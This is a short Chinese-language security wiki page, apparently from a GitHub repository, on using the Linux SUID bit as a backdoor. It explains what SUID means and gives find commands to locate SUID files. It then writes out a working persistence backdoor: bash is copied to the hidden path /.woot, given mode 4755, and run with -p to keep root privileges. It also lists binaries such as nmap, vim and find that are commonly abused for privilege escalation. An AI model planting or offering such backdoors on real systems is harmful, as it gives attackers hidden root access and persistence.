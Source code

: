 ## suid 后门

suid说明：

1. 用户或属主对应的前三位权限的x位上如果有s就表示suid权限。当x位上没有小写x执行权限的时候，suid的权限显示的就是大S。

2. suid作用是让普通用户可以以root（或其他）的用户角色运行只有root（或其他）账号才能运行的程序或命令，或程序命令对应本来没有权限操作的文件等。

先查找具有suid的文件：

```bash
find / -perm +4000 -ls
find . -perm /4000
find / -user root -perm -4000 -print 2>/dev/null

```

将具有suid的复制到指定目录，然后再给权限执行。

```bash
cp /bin/bash /.woot
chmod 4755 /.woot
/.woot -p

```

![](images/security_wiki/15905815214342.png)


列出一些具有suid权限的文件、然后利用一些二进制文件的特性来执行额外的命令。

```bash
Nmap
Vim
find
Bash
More
Less
Nano
cp

```

常见的suid提权的程序。

![](images/security_wiki/15905815287149.png)



